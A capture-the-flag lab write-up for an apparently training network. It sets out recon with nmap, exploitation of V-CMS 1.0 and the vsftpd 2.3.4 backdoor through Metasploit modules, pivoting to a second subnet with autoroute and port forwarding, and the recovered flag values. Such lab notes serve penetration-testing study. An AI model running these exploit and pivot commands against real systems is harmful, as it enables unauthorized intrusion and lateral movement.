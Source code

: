 # BLACK BOX TESTING 1

## GIVEN   
**MY IP ADDRESS**: 192.101.56.2

## PROCEDURE

### RECON

```
nmap -A --script vuln -p- demo.ine.local
```

**OPEN PORTS**:<br>
80 http (nginx 1.14.0 Web Server),<br>
3306 mysql,<br>

Port 80 is hosting V-CMS v1.0<br>

Google "vcms 1.0 vuln"<br>

**VULN**: V-CMS PHP File Upload and Execute

### EXPLOIT

```
msfconsole
search vcms
use exploit/linux/http/vcms_upload
set RHOSTS demo.ine.local
set TARGETURI /
set LHOST 192.101.56.2
exploit
```

### GET FLAG 1

```
search -f *flag*
cat /root/flag.txt
```

**FLAG 1**: 4f96a3e848d233d5af337c440e50fe3d

### PIVOT

```
shell
ifconfig
```

Device connected to 2 networks

eth0: 192.101.56.3
**eth1**: 192.4.78.2

```
run autoroute -s 192.4.78.0/24
background
route print
use auxiliary/scanner/portscan/tcp
set rhosts 192.4.78.0/24
run
```

**IP (PORTS)**:<br>
192.4.78.1 (22),<br>
192.4.78.2 (80, 3306),<br>
**192.4.78.3 (21, 22)**<br>

```
sessions -i 1
portfwd add -l 1234 -p 21 -r 192.4.78.3
background
nmap -A --script vuln -p 1234 localhost
```

**PORT 21**: vsftpd 2.0.8

## EXPLOIT

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.4.78.3
exploit #Didn't work the first time
exploit
find / -iname *flag*
```

**FLAG 2**: 58c7c29a8ab5e7c4c06256b954947f9a